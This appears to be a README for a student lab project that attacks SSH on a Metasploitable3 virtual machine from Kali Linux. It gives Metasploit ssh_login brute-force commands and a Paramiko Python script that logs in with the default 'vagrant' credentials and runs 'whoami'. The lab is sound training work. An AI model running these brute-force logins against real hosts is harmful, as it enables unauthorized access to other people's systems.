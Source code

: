 # SSH Exploitation on Metasploitable3 Using Metasploit and Python

## Setup Overview

In phase one of the project, we set up the two virtual machines and performed an SSH attack using:

- Metasploit Framework (Task 1.1)
- A custom Python script using Paramiko (Task 1.2)

---

## Virtual Machine Setup

### 1. Kali Linux (Attacker Machine)

- OS: Kali Linux (running in VirtualBox)
- Tools used: `nmap`, `metasploit`, `paramiko`

### 2. Metasploitable3 (Target Machine)

- OS: Ubuntu 14.04

Configured networking using a host-only adapter for both virtual machines, and ensured that ping works from both virtual machines.

---

## Task 1.1: SSH Exploitation Using Metasploit

1. Launch Metasploit

```bash
msfconsole
```

2. Use SSH Brute-Force Module

```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.56.101
set USER_FILE /path/to/usernames.txt
set PASS_FILE /path/to/passwords.txt
set THREADS 4
set STOP_ON_SUCCESS true
set VERBOSE true
run
```

replace /path/to with the actual path to your usernames and passwords lists.

---

## Task 1.2: SSH Exploitation Using Python

1. Install Paramiko

```bash
sudo apt install python3-paramiko
```

2. Use the python script

```python
import paramiko

def ssh_login(ip, username, password):
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        print(f"[+] Attempting SSH login to {ip} with {username}:{password}")
        client.connect(ip, username=username, password=password, timeout=5)

        stdin, stdout, stderr = client.exec_command('whoami')
        output = stdout.read().decode().strip()
        print(f"[+] Login successful! Command output: {output}")
        client.close()

    except paramiko.AuthenticationException:
        print("[-] Authentication failed.")
    except Exception as e:
        print(f"[!] SSH connection error: {e}")

if __name__ == "__main__":
    ssh_login("metasploitable3_ip_address", "vagrant", "vagrant")
```

3. Run the python script

```bash
python3 script_file.py
```

## Screenshots

![](./ping-host-to-metaspolitable3.png)
![](./ping-kali-to-metasploitable3.png)
![](./metasploit-installation-and-console.png)
![](./compromising-steps-metasploit.png)
![](./service-compromised-metasploit.png)
![](./custom-script-attack.png)
